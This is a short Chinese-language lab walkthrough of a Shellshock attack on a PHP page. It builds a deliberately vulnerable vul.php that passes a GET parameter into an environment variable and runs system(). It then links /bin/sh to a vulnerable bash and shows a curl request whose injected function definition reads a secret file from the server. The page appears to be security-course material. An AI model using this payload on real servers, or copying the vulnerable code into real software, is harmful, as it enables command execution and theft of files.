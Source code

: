 ## 针对PHP的远程攻击

### 1. 编写目标程序

```php
// vul.php

<?php
        function getParam() {
                $arg = NULL;
                if (isset($_GET["arg"]) && !empty($_GET["arg"])) {
                        $arg = $_GET["arg"];
                }
                return $arg;
        }

        $arg = getParam();
        putenv("ARG=$arg");
        system("strings /proc/$$/environ | grep ARG");
?>
```

将文件移动到服务器目录中：

```bash
sudo mv vul.php /var/www/html/
```

在/var/www/html创建一个secret.txt用于后续实验。

### 2. 使/bin/sh指向漏洞版本的bash

```bash
sudo ln -sf /bin/bash_shellshock /bin/sh
```

### 3. 发起攻击

```bash
curl http://IPB/vul.php?arg="()%20%7B%20echo%20hello;%20%7D;%20/bin/cat%20/var/www/secret.txt"
```

返回结果包含secret.txt的内容。